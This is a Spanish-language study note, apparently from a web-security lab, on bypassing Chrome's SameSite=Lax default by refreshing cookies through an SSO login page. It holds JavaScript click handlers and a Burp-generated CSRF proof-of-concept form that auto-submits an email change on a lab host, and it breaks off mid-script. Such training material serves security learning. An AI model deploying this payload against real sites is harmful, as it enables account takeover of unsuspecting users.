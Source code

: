 ##### CSRF - BYPASS VIA COOKIE REFRESH

Como se mencionó anteriormente, si un sitio web no incluye un atributo `SameSite` al configurar una cookie, Chrome aplica `Lax`restricciones automáticamente de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO) (por ejemplo **OAuth**), en realidad **no aplica estas restricciones durante los primeros 120 segundos** en las solicitudes `POST` de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques entre sitios.

Una vez que se actualizan las cookies ese valor de 120 segundos vuelve a correr, lo interesante aqui es que podemos refrescar las cookies de 2 formas:

1. Desde una nueva pestaña para que el navegador no abandone la página antes de que pueda realizar el ataque final. **Un inconveniente menor con este enfoque es que los navegadores bloquean las pestañas emergentes a menos que se abran mediante una interacción manual.**

```javascript
//recargar la pagina dsde una nueva pestaña
window.open('https://vulnerable-website.com/login/sso');
```

2. En caso de que este bloqueado las pestañas emergentes, podemos refrescar la pagina pero con un evento, por ejemplo **onclick** y colocarlo en toda la pagina para que apenas haga click **en cualquier lugar de la pagina** se active.

```javascript
window.onclick = () => { 
	window.open('https://vulnerable-website.com/login/sso'); 
}
```

>[!tip]
>Podemos hacer uso de la funcion **setTimeOut()** para que dentro de la funcion **onClick()** se mande directamente el formulario en un ataque de CSRF.

**EJEMPLO**

vemos que una pagina en su inicio de sesion usa SSO (OAuth):

![[Pasted image 20230208120347.png]]

![[Pasted image 20230208120501.png]]

![[Pasted image 20230208120541.png]]

entonces podemosusar esta tecnica, en la accion de cambio de contraseña solo acepta metodo **POST**, pero podemos hacer la actualizacion de cookies para evadir el samesite:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a10008903710d82c2668f7100db00e2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hack&#64;you&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    //onclick para evadir ventanas emergentes
    window.onclick = () => {
        window.open('https://0a10008903710d82c2668f7100db00e2.web-security-academy.net/social-login'); //abrimosla pagina del login OAth para refrescar cookies
        
        //despues de 5 segundo se auto envia el formulario
        setTimeout(changeEmail, 5000);
    }

	//funcion de auto envio de formulario CSRF
```